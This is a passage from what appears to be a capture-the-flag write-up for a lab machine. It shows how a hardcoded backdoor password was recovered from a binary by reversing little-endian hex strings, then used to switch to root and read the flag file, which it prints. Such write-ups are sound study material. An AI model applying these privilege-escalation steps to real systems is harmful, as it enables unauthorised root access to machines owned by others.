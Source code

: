 Based on the code in the assembly view, it looked like these two strings were concatenated to make the backdoor password. It then uses `strcmp` to compare the backdoor password to the input password and allows authentication if they match. It didn't hurt to try!

It didn't work for switching users to root, but when looking at the code I had a thought. It said earlier that the code was little-endian, so...maybe the strings were backwards?

```text
┌──(zweilos㉿kali)-[~/htb/compromised]
└─$ echo '0x4533557e656b6c7a' | xxd -r | rev
zlke~U3E                                                                                                        
┌──(zweilos㉿kali)-[~/htb/compromised]
└─$ echo '0x2d326d3238766e' | xxd -r | rev  
nv82m2-
```

I combined the two halves of the password and tried to switch users to `root`.  

### Getting a shell

```text
sysadmin@compromised:/dev/shm$ su root
Password: 
su: Authentication failure
sysadmin@compromised:/dev/shm$ su -
Password: 
root@compromised:~# id && hostname
uid=0(root) gid=0(root) groups=0(root)
compromised
```

And that was it! I was logged in as root.

### Root.txt

```text
root@compromised:~# cat root.txt 
5ecdcd0bab29ab67d325c26ed9deaec7
```

After that it was a simple matter to collect my proof!
